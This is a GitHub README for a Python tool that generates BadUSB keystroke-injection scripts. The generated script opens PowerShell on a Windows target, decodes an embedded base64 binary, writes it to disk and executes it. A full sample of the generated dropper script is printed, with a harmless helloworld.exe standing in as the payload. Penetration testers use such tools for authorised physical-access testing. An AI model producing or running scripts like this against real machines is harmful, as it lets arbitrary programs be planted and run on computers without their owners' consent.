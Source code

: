 # BadUSBBinFilePS
Small program for generating BadUSB script that generates binary files in Python

![Screenshot](https://github.com/James-P-D/BadUSBBinFilePS/blob/main/screenshot.gif)

## Introduction

When using BadUSB it is sometimes necessary to get a binary file onto the target machine. Unless the ducky device you are using can double up as an HID input *and* an external drive, you typically need to download the binary file from some online source, usually over HTTP(S). As a workaround for this, I decided to create a short Python script which could generate a BadUSB script which included the base64-encoded data for the binary file and was decoded in Powershell.

## Usage

Running the script with arguments produces:

```
Python main.py BINARY_FILE OUTPUT_BAD_USB_FILE
E.G.
Python main.py helloworld.exe bad_usb_test.txt
```

So to run it simply supply the arguments for the binary file to encode, and name of the BadUSB script file to be created.

The outputted file will look something like this:

```
GUI r
DELAY 500
STRING powershell
ENTER
STRING $b64str = 'TVqQAAMAAAAEAAAA.....[Lots more data]'
ENTER
STRING $bytes = [Convert]::FromBase64String($b64str)
ENTER
DELAY 500
STRING [io.file]::WriteAllBytes('helloworld.exe', $bytes)
ENTER
DELAY 500
STRING ./helloworld.exe
ENTER
```

When run on the target Windows machine it will <kbd>WIN</kbd>+<kbd>r</kbd> to open the 'run' dialog, then start `powershell`, then decode the base64-encoded data and save to file, and then finally run the executable. The execution of this script can be seen in the video at the top of this file.